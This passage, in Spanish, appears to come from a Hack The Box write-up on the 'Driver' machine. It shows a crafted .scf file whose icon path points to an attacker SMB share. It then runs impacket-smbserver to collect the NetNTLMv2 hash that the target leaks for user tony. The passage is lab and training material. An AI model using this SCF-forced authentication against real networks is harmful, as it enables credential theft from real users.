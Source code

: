 ```bash
➜  content cat icon.scf
[Shell]
IconFile=\\10.10.14.19\zi\dame.ico
```

- Ahora ejecutamos el `impacket-smbserver` para ofrecer el recurso compartido y allí nos llegue el hash.

```bash
➜  content impacket-smbserver zi . -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

- Ahora subimos el archivo.

<p align="center">
<img src="/assets/images/htb-writeup-driver/4.png">
</p>

- Al subirlo nos llega el hash.

```bash
➜  content impacket-smbserver zi . -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.250.229,49414)
[*] AUTHENTICATE_MESSAGE (DRIVER\tony,DRIVER)
[*] User DRIVER\tony authenticated successfully
[*] tony::DRIVER:aaaaaaaaaaaaaaaa:23bb0f7e862bb961d0a9575629a94420:010100000000000080a35aa66585da013f8e51d6f6f0512e00000000010010004f0046005a004a006a00480067004700030010004f0046005a004a006a00480067004700020010006500780041004500480047006e006d00040010006500780041004500480047006e006d000700080080a35aa66585da01060004000200000008003000300000000000000000000000002000002d6d666541de235278af71556e18b8f6cca24e3bc26bbfa175e94480b52e4e710a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003900000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:zi)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:zi)
[*] Closing down connection (10.129.250.229,49414)
[*] Remaining connections []
```
